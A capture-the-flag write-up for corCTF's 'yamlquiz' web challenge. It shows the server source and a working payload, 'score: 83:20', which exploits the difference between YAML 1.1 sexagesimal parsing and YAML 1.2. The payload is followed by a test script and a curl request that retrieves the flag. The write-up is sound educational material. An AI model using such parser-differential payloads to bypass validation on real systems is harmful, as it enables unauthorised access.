

# yamlquiz

```
How well do you know ~~JSON~~ YAML? Take this quiz and find out!

yamlquiz.ctfi.ng
```

Attachment:

```js
const express = require('express');
const YAML = require('yaml');

const PORT = process.env.PORT || 4455;
const FLAG = process.env.FLAG || 'corctf{fake_flag_for_testing}';

const app = express();

app.use(express.urlencoded({extended: false}));
app.use(express.static('static'));

app.post('/submit', (req, res) => {
  let result = req.body.result;
  let score = 0;
  if (result) {
    const result_parsed_1 = YAML.parse(result, null, {version: '1.1'});
    const result_parsed_2 = YAML.parse(result, null, {version: '1.2'});
    const score_1 = result_parsed_1?.result?.[0]?.score ?? 0;
    const score_2 = result_parsed_2?.result?.[0]?.score ?? 0;
    if (score_1 !== score_2) {
        score = score_1;
    }
  } else {
    score = 0;
  }

  if (score === 5000) {
    res.json({pass: true, flag: FLAG});
  } else {
    res.json({pass: false});
  }
});

app.listen(PORT, () => console.log(`web/yamlquiz listening on port ${PORT}`));
```

So we need to find the differences between yaml 1.1 and 1.2 to let one yaml to be parsed into different values. Some searches lead to <https://ruudvanasseldonk.com/2023/01/11/the-yaml-document-from-hell>:



So, to get `5000`, we can use `83:20` so that `83*60+20=5000`. Test it in JavaScript:

```js
const YAML = require('yaml');
const result = "result:\n - score: 83:20";
const result_parsed_1 = YAML.parse(result, null, {version: '1.1'});
const result_parsed_2 = YAML.parse(result, null, {version: '1.2'});
const score_1 = result_parsed_1?.result?.[0]?.score ?? 0;
const score_2 = result_parsed_2?.result?.[0]?.score ?? 0;
console.log(score_1);
console.log(score_2);
console.log("result=" + encodeURIComponent(result));
```

Output:

```
5000
83:20
result=result%3A%0A%20-%20score%3A%2083%3A20
```

It does work! Get flag via:

```shell
$ curl -X POST -d "result=result%3A%0A%20-%20score%3A%2083%3A20" https://yamlquiz.ctfi.ng/submit
{"pass":true,"flag":"corctf{ihateyamlihateyamlihateyaml!!!}"}
```
